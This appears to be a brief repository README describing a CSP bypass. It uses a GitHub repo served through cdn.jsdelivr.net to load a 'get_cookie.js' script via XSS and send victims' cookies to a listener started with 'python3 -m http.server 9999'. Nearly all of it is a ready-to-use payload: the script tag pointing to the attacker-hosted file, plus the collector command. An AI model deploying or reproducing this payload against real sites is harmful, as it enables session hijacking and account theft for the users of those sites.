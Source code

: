 利用cdn.jsdelivr.net托管仓库造成XSS泄露cookie

    python3 -m http.server 9999
    https://cdn.jsdelivr.net/gh/wedidaprettygoodjobsofar/csp_bypass@1055fb0f4da637522aa54472e0c288060651b513/get_cookie.js
    <script src="https://cdn.jsdelivr.net/gh/wedidaprettygoodjobsofar/csp_bypass@1055fb0f4da637522aa54472e0c288060651b513/get_cookie.js"></script>
